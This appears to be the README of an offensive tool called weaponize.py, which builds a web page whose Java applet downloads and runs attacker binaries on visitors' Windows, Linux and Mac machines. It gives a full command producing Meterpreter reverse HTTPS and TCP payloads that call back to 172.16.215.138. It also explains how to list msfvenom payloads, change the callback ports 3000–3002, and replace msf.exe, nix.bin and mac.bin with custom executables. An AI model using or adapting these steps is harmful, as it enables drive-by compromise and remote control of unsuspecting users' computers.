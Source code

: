 There are a few ways to customize the payloads used by `weaponize.py`. 

The first is through command line arguments to the script itself. For instance, to customize the Windows and Linux payloads (but leave the OSX payload as default) run:

`/opt/java-web-attack#` **`./weaponize.py -w windows/x64/meterpreter/reverse_https -l linux/x64/meterpreter/reverse_tcp index.html 172.16.215.138`**

In this instance, we specified **windows/x64/meterpreter/reverse_https** in order to use the 64-bit Meterpreter communicating over HTTPS for the Windows payload and **linux/x64/meterpreter/reverse_tcp** to use the 64-bit variant of the default Linux payload.

For a full listing of available payloads you can run the following:

`/opt/java-web-attack#` **`msfvenom -l payloads`**

As there are many payloads available, you may wish to filter them using `grep` to only show one operating system at a time.

`/opt/java-web-attack#` **`msfvenom -l payloads | grep windows`**

---

By default, the ports used for the Windows, Linux, and OSX payloads are 3000, 3001, and 3002, respectively. To customize these ports you will need to edit the **weaponize.py** file. Near the top, you will find these lines where you can customize the ports used.

    WINDOWS_PORT = 3000
    LINUX_PORT = 3001
    OSX_PORT = 3002

Edit the file, save your changes, and rerun `weaponize.py` (follow Example 2) to regenerate your payloads.

---

The third way you can customize the payloads used is to use your own binary files entirely. To do this, simply follow the instructions in Example 2 so that you end up with the **output** directory containing the necessary files. Then replace one or more of the following with the custom executables of your choice.

* msf.exe - The Windows binary that the Java applet downloads and executes.
* nix.bin - The Linux binary that the Java applet downloads and executes.
* mac.bin - The Mac OS X binary that the Java applet downloads and executes.

Note: You will need to set up your own payload listeners if you replace the payload binaries.

